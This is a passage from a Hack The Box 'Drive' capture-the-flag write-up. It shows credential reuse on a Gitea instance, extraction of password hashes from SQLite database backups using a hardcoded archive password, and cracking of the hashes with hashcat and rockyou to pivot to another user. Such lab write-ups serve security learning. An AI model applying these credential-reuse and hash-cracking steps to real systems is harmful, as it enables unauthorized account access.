 Before I break my head thinking about some kind of attack to vulnerate the sign in page, I go to browse a bit through the **[Gitea](https://hailbytes.com/what-is-gitea-a-complete-guide/){:target="_blank"}** page and I find some very interesting things, such as two usernames (**crisDisel**, **martinCruz**) and a repository of the **DoodleGrive** project. I think they may be reusing credentials and I get lucky and can access, as a reflex action I download the repository on my machine to enumerate it.

<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_047.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_048.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_049.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_050.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_051.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Once I download the repository I can access new resources, the first thing I do is analyze the **db.sqlite3** file to search for new hashes but I can't find anything in the table I found before. But I find the script that performs the security copies of the database, with the **Hardcoded password** (<ins>very bad practice</ins>), so I can unzip the **.7z** that before I could not and find a list of hashes that I filter because there are several repeated. With the `hashcat` tool I can break again some of them and I can successfully pivot to the **tom** user and access to the first flag to show in **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** the commitment of the box, also in the tom's Home directory I find a binary with the **SUID** bit activated, **doodleGrive-cli**, very interesting to analyze.

> **Attacker Machine:**

```bash
git clone http://localhost:3000/crisDisel/DoodleGrive.git
strings db.sqlite3 | grep 'sha1\$'                            # :(
sqlite3 db.sqlite3
  .databases
  .tables
  select username,password from accounts_customuser;          # :(

7z x 01_Mar_db_backup.sqlite3.7z
strings db.sqlite3 | grep 'sha1\$'                            # :(
sqlite3 db.sqlite3
  .databases
  .tables
  select username,password from accounts_customuser;          # SHA256!
nvim hashes2
#  :%s/|/:

7z x 1_Dec_db_backup.sqlite3.7z
strings db.sqlite3 | grep 'sha256'
sqlite3 db.sqlite3
  select username,password from accounts_customuser;

# ....all db files!!

cat hashes | sort -u
cat hashes | sort -u | sponge hashes
cat hashes | tail -n 4 | sponge hashes

hashcat --example-hashes | grep -i 'django' -A 3 -B 2
hashcat -a 0 -m 124 --user hashes /usr/share/wordlists/rockyou.txt    # :)
```

